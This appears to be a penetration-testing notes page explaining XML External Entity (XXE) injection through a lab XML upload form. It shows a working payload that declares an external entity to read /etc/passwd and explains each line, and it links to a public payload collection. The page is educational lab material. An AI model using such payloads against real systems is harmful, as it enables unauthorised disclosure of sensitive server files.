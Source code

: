 # 🥋 XXE - External Entities Injection

XXE, or External Entity Injection, is a type of security vulnerability that occurs when an application processes XML input from untrusted sources without proper validation or sanitization. XML (eXtensible Markup Language) is a widely used format for representing structured data.

In XXE attacks, an attacker tries to exploit the ability of XML to include external entities. An external entity is a reference to an external resource, such as a file or a URL, that is pulled into the XML document during parsing. If an application doesn't properly validate or restrict the entities allowed in the XML input, an attacker may craft malicious XML payloads to include external entities that lead to unintended consequences, such as disclosure of sensitive information, remote code execution, or denial of service.

<figure><img src="../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

We have an upload form for XML files, we can see the input wanted for the file:

`<creds><user>username</user><password>password</password></creds>`

So technically a file like this would do:

```
┌──(kali㉿kali)-[~/Desktop/labs/user-content]
└─$ cat xxe-safe.xml 
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

<figure><img src="../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

so it works and the input is added to the database

now a vulnerable version of this would be :

```
┌──(kali㉿kali)-[~/Desktop/labs/user-content]
└─$ cat xxe-exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

1. `<?xml version="1.0" encoding="UTF-8"?>`: This declaration indicates that the XML document is in version 1.0 and uses UTF-8 encoding.
2. `<!DOCTYPE creds [`: This marks the beginning of the Document Type Definition (DOCTYPE) for the `creds` element. In this section, external entities are declared.
3. `<!ELEMENT creds ANY >`: This declaration states that the `creds` element can contain any type of child element. This is often used in XXE attacks to allow the inclusion of external entities.
4. `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>`: This declaration creates an entity named `xxe` that points to the `/etc/passwd` file on the file system. The `/etc/passwd` file is commonly used as an example because it contains information about system users.
5. `<creds><user>&xxe;</user><password>pass</password></creds>`: In this part, the payload utilizes the external entity `xxe` in the `user` element. Thus, during XML parsing, the processor will attempt to include the content of the `/etc/passwd` file in place of `&xxe;`.

Often you'll go on payload all things for the XXE's but it's good to see how it's interpreted. Try testing out XXE's when encountering JSON uploads [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
